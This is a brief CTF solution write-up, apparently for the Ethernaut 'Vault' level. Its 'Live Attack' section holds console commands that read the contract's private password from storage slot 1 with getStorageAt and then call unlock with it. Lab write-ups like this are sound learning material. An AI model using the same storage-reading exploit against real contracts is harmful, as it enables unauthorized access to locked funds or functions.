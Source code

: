 # Vault

[Vault](https://ethernaut.openzeppelin.com/level/0xBA97454449c10a0F04297022646E7750b8954EE8)


## Live Attack

// Contract Address: 0xB309aC0a59E4990d8a57Ef9257f3ab49577c4CBa

```BASH
vault = await Vault.at("0xB309aC0a59E4990d8a57Ef9257f3ab49577c4CBa")
pass  = await web3.eth.getStorageAt(vault.address, 1)
sender = accounts[5]

await vault.locked()
await vault.unlock(pass, {from: sender})
await vault.locked()
```
